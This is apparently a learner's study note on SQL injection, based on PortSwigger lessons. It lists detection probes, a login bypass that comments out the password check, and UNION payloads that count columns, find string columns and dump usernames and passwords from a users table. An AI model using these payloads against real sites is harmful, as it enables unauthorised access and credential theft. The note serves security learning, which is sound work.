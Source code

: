 [[Bug]]
Sources : [portswigger sqli](https://portswigger.net/web-security/sql-injection) sqli-labs

SQLi = send DB commands through user input. I can confirm it if I see error leaks or time delays. Use `' or 1=1--` to test first.

using [[sqlmap]] will save a lots
##### ways to detect SQL injection vulnerabilities
- use `'` in the end and check for error or any thing that tell you there is a bug
- sometimes when change the value of entry point this will cause different in the response
- use boolean like `' OR '1'='1` or `' OR 1=1` or use `' AND '1'='1` then check for any different
- use payloads that can cause time delay , [payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection) 
- use payloads that made out-of-band interaction , [payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection) 

##### Retrieving hidden data

using boolean to retrieving hidden data  using payloads like this 
`https://insecure-website.com/products?category=Gifts'+OR+1=1--`

##### Subverting application logic

it use something like `--` (which will comment what after it )
it can add after username to comment the password and will cause login using only username `username = administrator'--&password = p@ass4word` 
even if the password was wrong


##### Retrieving data from other database tables(UNION)

`UNION` keyword to execute an additional `SELECT` query and append the results to the original query. but it have two requirements must to met:

- should both tables have the same number of columns 
- should every columns of both tables have the same type of data

###### Determining the number of columns required

there's a lot of ways like **`ordre by`**  for example:
**`' ORDER BY 3--`**

but the most use is **`NULL`** for example:
**`' UNION SELECT NULL,NULL--`**

**(NOTE: when using it , should keep adding `,NULL` until the error disappears )**

some database will not work on it , for example on **Oracle** will need to add known table to it for default **built-in table** , will use this table **`dual`** for example 
`' UNION SELECT NULL FROM DUAL--`

**(NOTE: you will need to check payloads cheat sheet to know the different between different databases  )**

after know how many columns , then we need to know what the type of data is for every column
for that we can use this :
```
' UNION SELECT 'a',NULL,NULL,NULL-- 
' UNION SELECT NULL,'a',NULL,NULL-- 
' UNION SELECT NULL,NULL,'a',NULL-- 
' UNION SELECT NULL,NULL,NULL,'a'--`
```
if it work on any one of these , this mean this specific column datatype is **string** 

###### Using a SQL injection UNION attack to retrieve interesting data
after knowing all of these we need to use this to exploit it 

assuming there's table called **`users`** and have different columns one of them is **`username`** and the other one is **`password`**,  here you can use this payload to retrieve their info:
`' UNION SELECT username, password FROM users--`

when needs to retrieve two columns and only have one column that can retrieve string , here you have two option 
- retrieve one after one , not together
- use this payload to retrieve two columns in one column
  `' UNION SELECT username || '~' || password FROM users--`

